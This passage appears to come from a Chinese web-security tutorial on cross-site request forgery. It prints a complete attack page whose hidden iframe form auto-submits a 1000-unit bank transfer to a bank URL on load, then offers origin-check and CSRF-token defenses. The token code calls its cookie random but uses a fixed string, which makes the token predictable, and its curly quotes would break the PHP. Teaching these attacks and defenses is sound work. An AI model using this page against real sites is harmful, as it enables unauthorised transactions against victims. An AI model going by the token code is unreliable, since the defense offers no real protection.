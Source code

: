 ## 7.3.示例2
银行网站A，它现在改为以POST请求来完成银行转账的操作，
然后危险网站B也改了，它的代码如下：
```html
<html>
　　<head>
　　　　<script type="text/javascript">
　　　　　　function steal()
　　　　　　{
          　　　　 iframe = document.frames["steal"];
　　     　　      iframe.document.Submit("transfer");
　　　　　　}
　　　　</script>
　　</head>

　　<body onload="steal()">
　　　　<iframe name="steal" display="none">
　　　　　　<form method="POST" name="transfer"　action="http://www.myBank.com/Transfer.php">
　　　　　　　　<input type="hidden" name="toBankId" value="11">
　　　　　　　　<input type="hidden" name="money" value="1000">
　　　　　　</form>
　　　　</iframe>
　　</body>
</html>
```
利用iframe的跨域漏洞

## 7.4.防范
### 7.4.1.origin字段
检查ajax的origin字段

### 7.4.2.csrf令牌
```php
<?php
　　　//构造加密的Cookie信息
　　　$value = “DefenseSCRF”;
　　　setcookie(”cookie”, $value, time()+3600);
　?>
```
后端随机生成cookie
```php
<?php
　　　　$hash = md5($_COOKIE['cookie']);
　　?>
　　<form method=”POST” action=”transfer.php”>
　　　　<input type=”text” name=”toBankId”>
　　　　<input type=”text” name=”money”>
　　　　<input type=”hidden” name=”hash” value=”<?=$hash;?>”>
　　　　<input type=”submit” name=”submit” value=”Submit”>
　　</form>
```

